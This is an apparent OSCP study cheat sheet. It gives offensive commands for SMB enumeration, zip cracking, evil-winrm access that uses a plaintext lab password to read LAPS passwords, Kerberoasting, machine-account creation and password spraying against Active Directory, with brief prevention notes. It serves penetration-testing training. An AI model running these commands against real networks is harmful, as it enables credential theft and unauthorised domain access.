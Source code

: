 # OSCP


File Management:-

	Linux:-
		
		ls -la : show hidden files & size & permissions.
		lsattr : list files attribute and if you can append even if you don't have write permission.
		chattr : change files attribute (a:append,e:can't change,I:can't delete or move,etc..).	
		ln originFile copyFile : to make hard link of originFile to copyFile
		ln -s sourceFile copyFile : to make a soft link(shortcut in windows) to sourceFile, you will find -i when you ls -la copyFile.




	Windows:-
	
		dir /(A,S,Q): display files attributes,files in directories & sub directories,files owner.
		
		
SMB Enumeration:-

	enum4linux,nmap to get domain controller + user 
	smbmap -H 10.10.11.152 -u 'guest' -d Timelapse.htb     --- to search for readable/writable shares you can use -R for recursive 
	smbclient //10.10.11.152/Shares -U Timelapse.htb/guest  --- to connect where Timelapse.htb is the domain controller and guest is the user
	
	
Password Attacks

	fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip	--- to crack zip files


General Information:-

	PFX files contains certificate and private key which can be extracted using openssl
	evil-winrm -k private.key -c public.key -i 10.10.11.152 -S   ---- to connect to winrm on port 5986 with ssl 
	example of evil-winrm to hack active directory:
			*Evil-WinRM* PS C:\users> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
			*Evil-WinRM* PS C:\users> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
			*Evil-WinRM* PS C:\users> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
			invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}
			invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -properties ms-mcs-admpwd,ms-mcs-admpwdexpirationtime}
	

	
Active Directory Attacks:-

	Kerberoasting: Post exploitation attack, require a valid user (TGT) to request TGS from a service account with SPN and crack the TGS to get the credentials out of it (TGS is encrypted with the NTLM hash of the SPN account password).
		Tools that can be used:-
			1-Rubeus
			2-Impacket GetUserSPNs.py
			3-Powershell scripts, etc..
		Steps:-
			impacket-GetUserSPNs test.int/yazan:'yazan' -dc-ip 192.168.100.200   //serach for SPN that can help us in escilating priv.
			impacket-GetUserSPNs test.int/yazan:'yazan' -dc-ip 192.168.100.200 -request -outputfile output.hash // save the hash
			hashcat --force -m 13100 -a 0 output.hash rockyou.txt //dictionary attack to get the password 
		
		Prevention:-
			Use strong and complex password or host based password insted of user based password.
			
	Default Settings -Add-Computer
	
		Configration:-
			ms-DS-MachineAccountQuota attribute (10 by default)
			add workstation to the domain permission (enabled by default)
		Steps:-
			crackmapexec smb 192.168.200.1/30 //search for machines
			crackmapexec smb 192.168.200.1/30 -u yazan -p 'yazan' -d domain.ini //search for the domain controller 
			impacket-addcomputer -dc-ip 192.168.100.200 domain.iti/yazan:'yazan' -computer-name Computer1$ -computer-password yazan //create a computer account the name of it must containt $ at the end 
		Prevention:-
			from the configuration give it only for the needed staff.
	
	Password spraying:-
		Tools:-
			1-Metasploit- smb_login
			2-crackmapexec
		Steps:-
			impacket-GetADUsers domain.ini/yazan:'yazan' -dc-ip 192.168.100.200 > user.txt //get all users in domain
			crackmapexec smb 192.168.200.100 -u users.txt -p yazan // start the attack untill you find a user with the specified password
	Golden Ticket:-
		
		The Golden Ticket is the Kerberos authentication token for the KRBTGT account, a special hidden account with the job of encrypting all the authentication tokens for the DC. That Golden Ticket can then use a pass-the-hash technique to log into any account, allowing attackers to move around unnoticed inside the network
	
	Silver Ticket:-
	
		Silver Ticket only enables an attacker to forge ticket-granting service (TGS) tickets for specific services. TGS tickets are encrypted with the password hash for the service; therefore, if an adversary steals the hash for a service account, they can mint TGS tickets for that service.
			
![image](https://user-images.githubusercontent.com/91881471/174433005-d10ed507-c66c-4760-9eff-4a1c9099ee7e.png)

